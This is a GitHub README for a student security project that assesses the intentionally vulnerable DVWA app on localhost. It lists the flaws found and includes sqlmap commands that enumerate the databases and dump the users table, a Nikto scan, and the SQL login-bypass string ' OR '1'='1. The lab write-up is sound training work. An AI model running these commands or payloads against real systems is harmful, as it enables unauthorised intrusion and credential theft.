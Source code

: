 # Web Application Security Testing (DVWA)

This project documents a hands-on vulnerability assessment of the **Damn Vulnerable Web Application (DVWA)** using industry-standard tools and manual testing methods.

---

## 📌 Project Overview
- **Project**: Vulnerability Assessment on DVWA  
- **Tools Used**: SQLMap, Nikto, Manual (Browser) Testing  
- **Environment**: Kali Linux 2025  
- **Prepared by**: RAWLINGS ODIERO  
- **Date**: August 2025  
- **Task**: FutureInterns – Task 1  

---

## 🧪 Vulnerabilities Identified
1. **SQL Injection** (manual + automated with SQLMap)
2. **Cross-Site Scripting (XSS)** – Reflected XSS + Cookie Disclosure
3. **Cross-Site Request Forgery (CSRF)** – Manual .html form
4. **Authentication Bypass** – `' OR '1'='1`
5. **Directory Listing & Server Misconfigurations** (Nikto)
6. **Apache Server Info Disclosure & PHP Shells** – via Nikto

---

## 🧰 Tools & Commands

### 🔸 SQLMap Automation
```bash
sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" \
--cookie="security=low; PHPSESSID=62872aa381f5f24da77630834bef64d1" --batch --dbs

sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" \
--cookie="security=low; PHPSESSID=62872aa381f5f24da77630834bef64d1" -D dvwa --tables

sqlmap -u "http://127.0.0.1/DVWA/vulnerabilities/sqli/?id=1&Submit=Submit" \
--cookie="security=low; PHPSESSID=62872aa381f5f24da77630834bef64d1" -D dvwa -T users --dump

🔸 Nikto Scan
nikto -h http://127.0.0.1 -o dvwa-nikto-report.html -Format html


